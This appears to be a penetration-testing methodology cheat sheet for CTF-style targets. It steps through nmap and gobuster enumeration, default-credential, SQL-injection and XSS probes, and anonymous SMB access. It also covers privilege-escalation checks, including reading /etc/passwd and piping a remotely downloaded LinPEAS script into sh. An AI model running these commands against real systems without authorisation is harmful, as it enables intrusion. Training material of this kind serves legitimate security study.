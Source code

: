 # Methodology


## Initial Discovery

1) If you don't know where the target lives, use `netdiscover` to find it

```
sudo netdiscover -i eth0
```

2) Enumerate TCP ports on the target with `nmap`

```
nmap -Pn -v -p- -T4 ${TARGET_HOST}
```

2) Enumerate UDP ports on the target with `nmap`

```
nmap -v -sU -F -T4 ${TARGET_HOST}
```

> The `-F` option will do only the top 100 common UDP ports... (UDP scans are slow)


3) Get service fingerprint info with `nmap`

```
nmap -Pn -v -p ${PORTS_FROM_2} -T4 -A ${TARGET_HOST}
```

4) Take notes of `nmap`'s results

- Any service / versions available
- For HTTP Servers:
  - Any relevant HTTP headers
  - Any hits in robots.txt

## Webserver Enumeration

5) **ALWAYS** check for a `robots.txt` file... usually it will quickly give away some routes (faster than waiting for automated enumeration).

6) Enumerate webserver paths with `gobuster`:

```
gobuster dir -u ${TARGET_URL} -w ${WORDLIST_PATH}
```

Some useful options:

- `-f` will append a trailing slash to all words (`/`)
- `-x '.php,.txt'` will append strings to all words

## Webserver Form Tampering

7) **ALWAYS** try a handful of well-known bad username+password combinations e.g. `admin:admin`, `admin:password`, ...

8) **ALWAYS** try special characeters like `'` which could reveal the possibility of SQL injection

9) **ALWAYS** try script tags like `<script>alert('hello')</script>` that could reveal the possibility of XSS

...

## Webserver Exploits

1) **ALWAYS** try it before reading the code... to save time

2) If it doesn't work chances are you need to change the code

3) If it still doesn't work, read the code thoroughly. Sometimes the code assumes too much about the target application e.g. that it is hosting the target page / functionality under a certain path.

## SMB Server Enumeration

1) Find unauthenticated SMB shares

```
smbclient -L ${TARGET} -N
```

2) Try connecting to a share

```
smbclient \\\\${TARGET}\\${SHARE_NAME}
```

3) Download files (once in an SMB prompt) (e.g. `smb: \>`)

```
get ${FILENAME}
```


## Privilege Escalation

> Quick Notes:
>
> - Print real and effective user and group IDs: `id`
> - Print system information: `uname`
> - Print all cron jobs: `cat /etc/crontab`
> - Print all users `cat /etc/passwd`
> - List commands allowed using sudo: `sudo -l`
> - Find all suid and guid binaries: `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

1) Check if you can run any commands as sudo

```
sudo -l
```

Check any hits against [GTFOBins](https://gtfobins.github.io/) to see if the command can be used to get a root shell.

(Pick the "Sudo" function in GTFOBins)

2) Always check for SUID (and GUID) binaries first

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

Check them against [GTFOBins](https://gtfobins.github.io/) to see if the command can be used to get a root shell.

(Pick the "SUID" function in GTFOBins)

3) Check for cron jobs running with root privilages

```
cat /etc/crontab
```

4) Run LinPEAS

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

If no cURL on the system try for wget

```
wget -O- https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

5) Run [`pspy`](https://github.com/DominicBreuker/pspy)

```
./pspy64 -pf -i 1000
```